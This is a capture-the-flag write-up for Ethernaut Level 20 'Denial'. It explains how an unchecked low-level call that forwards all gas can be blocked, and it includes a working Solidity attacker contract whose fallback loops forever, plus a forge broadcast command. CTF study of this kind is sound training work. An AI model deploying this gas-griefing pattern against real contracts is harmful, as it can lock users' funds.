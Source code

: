 <div align="center">
<p align="left">(<a href="https://github.com/Pedrojok01/Ethernaut-Solutions?tab=readme-ov-file#solutions">back</a>)</p>

<img src="../assets/levels/20-denial.webp" width="600px"/>
<br><br>
<h1><strong>Ethernaut Level 20 - Denial</strong></h1>

</div>
<br>

Read the article directly on my blog: [Ethernaut Solutions | Level 20 - Denial](https://blog.pedrojok.com/the-ethernaut-ctf-solutions-20-denial)

## Table of Contents

- [Table of Contents](#table-of-contents)
- [Goals](#goals)
- [The hack](#the-hack)
- [Solution](#solution)
- [Takeaway](#takeaway)

## Goals

<img src="../assets/requirements/20-denial-requirements.webp" width="800px"/>

## The hack

The goal of the Denial challenge is to prevent the owner from withdrawing funds using the `withdraw()` function. How to do that?

Let's take a look at the `withdraw()` function:

```javascript
function withdraw() public {
        uint amountToSend = address(this).balance / 100; // 1% of the contract's balance
        partner.call{value:amountToSend}(""); // Send to partner using call
        payable(owner).transfer(amountToSend); // Send to owner using transfer

        // The rest is irrelevant to the solution, but note that the CEI isn't respected
        timeLastWithdrawn = block.timestamp;
        withdrawPartnerBalances[partner] +=  amountToSend;
    }
```

There are 2 external calls here:

- `partner.call{value:amountToSend}("");`
- `payable(owner).transfer(amountToSend);`

There isn't much we can do with the `transfer` to the owner. However, we know that the `call` function forwards all the remaining gas to the callee. Unfortunately, since the return value isn't checked, simply reverting upon receiving ether wouldn't work. So we have to find another way to break the `withdraw` function.

This can be achieved by using all the remaining gas within the fallback function. By doing so, the `withdraw()` function will never be able to complete its execution. In this case, a useless infinite loop will do the work beautifully:

```javascript
fallback() external payable {
    while (true) {}
}
```

## Solution

Let's implement the solution accordingly:

```javascript
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.20;

interface IDenial {
    function setWithdrawPartner(address _partner) external;
}

contract Stop {
    IDenial idenial;

    constructor(address _denial) {
        idenial = IDenial(_denial);
    }

    function becomePartner() public {
        idenial.setWithdrawPartner(address(this));
    }

    fallback() external payable {
        while (true) {}
    }
}

```

Then run the script with the following command:

```bash
forge script script/20_Denial.s.sol:PoC --rpc-url sepolia --broadcast --watch
```

## Takeaway

- Always check the return value of the `call` function.
- A specific amount of gas can be specified when using the `call` function.

<div align="center">
<br>
<h2>🎉 Level completed! 🎉</h2>
</div>
